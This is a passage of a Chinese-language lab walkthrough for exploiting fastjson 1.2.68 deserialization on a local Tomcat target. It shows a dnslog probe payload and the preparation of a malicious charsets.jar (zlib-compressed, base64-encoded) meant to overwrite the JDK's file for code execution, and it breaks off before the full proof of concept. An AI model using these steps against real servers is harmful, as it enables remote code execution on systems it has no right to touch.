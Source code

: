 ![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AmgcicX0mzrUEkpVJg8TgicJ9l6n3ibrrrzQ5J4foQ50XyUbY2rOwiaicoCQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6A71bwmgXF9ECEjzqxlsADrRI2roUmoK4PYNsae767jpJ1ChAnAySUzQ/640?wx_fmt=png)

拷贝一个 fastjson-1.2.68.jar 文件到靶机的 tomcat/webapps/fastjson/WEB-INF/lib 目录下.

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AXA5lZOu1LAycJFeHsZQWFFAUr9aedDNibOnEWJpBcQbP6EEFolrFrhQ/640?wx_fmt=png)

**启动 / 关闭 tomcat**

(每次 Jar 包被触发后, 如需更改都需要重启 tomcat 初始化到未加载过相关利用 jar 包的状态)

```
./catalina.sh start
./catalina.sh stop
```

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6Afe7LFHujpibeibUdkfw5TWicRKwObVwvkK8ibPTuOhSgvB39DibqsvoqSMA/640?wx_fmt=png)

访问 http://127.0.0.1:8080/fastjson/ 出现 "Hello World" 即环境搭建正常.

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AAM6j81jXvbvkWnGXEiasicP2rDmVpPrxLQXXRUnKjic869XoJBpgViaTkQ/640?wx_fmt=png)

**1.dnslog 验证下漏洞环境是否可用**

```
{"x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AWr402M2Sq5IWAHp1Xw75u48U0icibuSuGZBiaPyvaKANGMhqLAyrOShMQ/640?wx_fmt=png)

**2. 下载漏洞利用 jar 包做处理**

https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks

将项目中的 spring-boot-upload-file-lead-to-rce-tricks-mainelease\charsets.jar 进行压缩编码处理.

(作者提供的 jar 包, 内置的代码执行后, 在 linux 环境下会在 /tmp 文件夹下创建测试文件)

```
cat charsets.jar | openssl zlib | base64 -w 0
```

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6Adv89UoAlMv3RJsWwZzuOXgB71mp8kWqJsHkcSyUEga6OXFCemStlUw/640?wx_fmt=png)

**3. 确认 java 安装目录, 找到其 lib 目录下 charsets.jar 的位置**

如: /usr/lib/jvm/java-1.8.0-openjdk-1.8.0.282.b08-1.el7_9.x86_64/jre/lib/charsets.jar

(后面的 poc 会用到, 实战利用时需要通过字典去枚举 jdk 目录)

```
ls -lrt /etc/alternatives/java
```

![](https://mmbiz.qpic.cn/mmbiz_png/TezRTl7qZQSsXMIRUplPzFB47g84icv6AGPqia2RXbG8TeIPve0MSq7EjHRhuJ8Mzy1HtRKSUqzNGhfNA45KsTKA/640?wx_fmt=png)

**poc 改动参数说明:**
